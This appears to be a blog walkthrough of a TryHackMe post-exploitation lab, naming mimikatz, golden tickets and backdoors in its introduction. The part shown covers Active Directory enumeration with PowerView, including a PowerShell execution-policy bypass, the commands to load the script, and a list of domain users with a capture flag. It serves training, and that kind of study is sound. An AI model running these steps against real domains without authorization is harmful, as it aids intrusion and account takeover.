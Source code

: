 ```yaml
---
layout: post
title: Post-Exploitation Basics
published: true
---
```


The basics of post-exploitation and maintaining access with mimikatz, bloodhound, powerview and msfvenom

[https://tryhackme.com/room/postexploit](https://tryhackme.com/room/postexploit)

* * *

## Task 1 - Introduction

This room will cover all of the basics of post-exploitation; we'll talk everything from post-exploitation enumeration with powerview and bloodhound, dumping hashes and golden ticket attacks with mimikatz, basic information gathering using windows server tools and logs, and then we will wrap up this room talking about the basics of maintaining access with the persistence metaploit module and creating a backdoor into the machine to get an instant meterpreter shell if the system is ever shutdown or reset.

* * * 

## Task 2 - Enumeration w/ Powerview 

- Enumeration cheat sheet: [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

- Powerview is a powerful powershell script from powershell empire that can be used for enumerating a domain after you have already gained a shell in the system.

1. ``powershell -ep bypass`` start powershell ``-ep bypass`` bypasses the execution policy of powershell allowing us to run scripts easily
2. ``. .\Downloads\PowerView.ps1`` start PowerView
3. ``Get-NetUser | select cn`` - enumerate domain users

```shell
PS C:\Users\Administrator\Downloads> Get-NetUser | select cn 
cn                  
--                                    
Administrator                         
Guest                                 
krbtgt                                
Machine-1                             
Admin2                                
Machine-2                             
SQL Service                           
POST{P0W3RV13W_FTW}                   
sshd          
````
